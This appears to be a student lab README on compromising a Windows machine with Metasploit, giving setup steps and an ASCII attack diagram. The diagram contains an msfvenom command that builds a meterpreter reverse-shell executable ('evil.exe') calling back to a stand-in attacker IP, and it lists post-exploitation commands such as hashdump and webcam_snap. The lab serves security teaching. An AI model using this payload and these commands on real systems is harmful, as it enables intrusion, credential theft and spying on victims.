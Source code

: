 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

### Developed By- SOMESHWAR S
### Register number: 212224040322

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:


## Architecture Diagram

```bash
## 🛠️ Metasploit Exploitation Architecture (Windows Target)


+----------------+                           +------------------+
|  🟢 Attacker    |      🔁 Reverse Shell      |   🔴 Victim (Win) |
|  (Kali Linux)  | <------------------------- |  Unpatched SMB   |
|  - msfconsole  |       (TCP 4444)          |  RDP, AV Bypass  |
|  - handler     |                           |                  |
+-------+--------+                           +--------+---------+
        |                                             |
        |  ⚙️ Payload generation using msfvenom        |
        |                                             |
        v                                             v
msfvenom -p windows/meterpreter/reverse_tcp  -->  User clicks payload  
         LHOST=attacker_ip LPORT=4444               or exploit triggers  
         -f exe > evil.exe  

        |
        |  🧲 Listener waits (multi/handler)
        v

+------------------------------------------------------------+
|     🧠 Meterpreter Session Established (shell access)       |
+------------------------------------------------------------+
| Commands: sysinfo | hashdump | migrate | webcam_snap | etc |
+------------------------------------------------------------+
```